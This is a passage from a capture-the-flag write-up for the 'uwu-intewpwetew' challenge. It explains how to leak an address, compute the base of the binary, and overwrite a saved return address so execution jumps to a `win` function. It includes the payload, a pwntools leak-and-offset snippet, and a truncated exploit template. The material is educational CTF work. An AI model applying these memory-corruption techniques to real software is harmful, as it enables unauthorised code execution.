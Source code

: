 Either way, we can use this to calculate the base address of the executable and therefore, the `win`
function.

Once we have the `win` function address, we can use `>w<` to overwrite the less significant bytes of
the return address to this function.
By calling `scanf`, we will push a saved RIP address within `vuln`.
`scanf` will overwrite this address while it's called.
Once it returns, it will return to the new address, which is the `win` function.

Thus, our payload looks like this:

```
owo owo owo owo owo owo owo owo owo owo @w@ @w@ >w<
```

and we can use pwntools to read the leak and calculate our new address:

```py
io.recvuntil(b"data: ")
io.recvuntil(b"data: ")

leak = int(io.recvuntil(b"\n", drop=True), 10)

offset = exe.sym['win'] - (exe.sym['vuln'] + 0x35d)

io.sendlineafter(b"Input: ", str(leak + offset).encode())
```

This will cause `scanf` to jump to the `win` function when it returns and print the flag.

## Exploit

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host localhost --port 1469 uwu-intewpwetew
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('uwu-intewpwetew')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'localhost'
port = int(args.PORT or 1469)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
```